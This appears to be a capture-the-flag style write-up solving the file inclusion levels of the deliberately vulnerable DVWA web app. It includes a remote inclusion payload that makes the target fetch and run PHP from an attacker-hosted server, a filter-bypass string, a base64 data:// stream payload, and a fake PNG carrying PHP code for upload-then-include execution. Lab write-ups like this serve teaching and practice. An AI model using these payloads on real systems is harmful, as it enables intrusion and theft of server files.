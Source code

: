 # File Inclusion

Objective

Read all five famous quotes from '../../hackable/flags/fi.php' using only the 
file inclusion.

## low

Output of `?page=../../hackable/flags/fi.php.`:
```html
1.) Bond. James Bond
2.) My name is Sherlock Holmes. It is my business to know what other people don't know.
<br /><br />
--LINE HIDDEN ;)--
<br /><br />
4.) The pool on the roof must have a leak.
<!-- 5.) The world isn't run by weapons anymore, or energy, or money. It's run by little ones and zeroes, little bits of data. It's all just electrons. -->
```

It seems the third one is missing, probably hidden in php comments.

It's time for some RFI:  
For example, I host my nginx webserver on port 80 with address 172.17.0.1
(default gateway in docker subnet, virtually connects my host with DVWA), and
the query string should be like:  
`?page=http://172.17.0.1:80/RFI.php`.

```php
/* RFI.php */
<?php
$f=<<<EOF
echo file_get_contents("../../hackable/flags/fi.php");
EOF;
echo $f;
>
```

**a trap you may encounter:**

When the target accesses this link above, php engine at our site would execute
RFI.php first and return its output. So, using `file_get_contents()` in RFI.php
only reads the file on our server. In order to execute this function, we should
set the output of RFI.php to our payload instead of itself.

Or else, don't trigger the php engine on our server. I'd suggest renaming the 
file to RFI.html or hosting with no php support, i.e. a python http server.

```
3.) Romeo, Romeo! Wherefore art thou Romeo?
```

## medium

This level has better filters to protect against "http://" and "https://" for
RFI, "../" and "..\\"" for LFI.

If you've finished the XSS challenge, you may find it easy to bypass this 
filter using this trick:  
`?page=hthttp://tp://172.17.0.1/RFI.php`.

Moreover, if you're familier with php streams, you could also craft your exp
like this:  
`?page=data://text/plain;base64,PD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygiL3Zhci93d3cvaHRtbC9oYWNrYWJsZS9mbGFncy9maS5waHAiKTs/Pg==`

Payload in the base64 string above is:  
`<?php echo file_get_contents("/var/www/html/hackable/flags/fi.php");?>`

## high (technique)

In this level we can only access specific files ("file*") or "include.php" 
which contains challenge README.

Noticing that there's also a stream wrapper in php called `file://` so at least
LFI is possible, which means we have to seek another vulnerability such as file
upload. For example, If we've successfully uploaded some malicious php code in
'a.php', we can include it by
`?page=file:///var/www/html/hackable/uploads/a.php`.

## high (practice)

**See the technique chapter of 'File_Upload.md' if you don't know what to do.**

First let's concat our payload to 'PNG.bin' :  
`nasm -f bin -o PNG.bin Fake_PNG.asm`  
`echo -n '<?php echo file_get_contents("/var/www/html/hackable/flags/fi.php");?>' | cat PNG.bin - > dump.png`

Upload 'dump.png' and query
`?page=file:///var/www/html/hackable/uploads/dump.png`. Php engine would just
echo what it doesn't care and execute our code after that dummy PNG header.

You can get all five famous quotes from HTML comments.

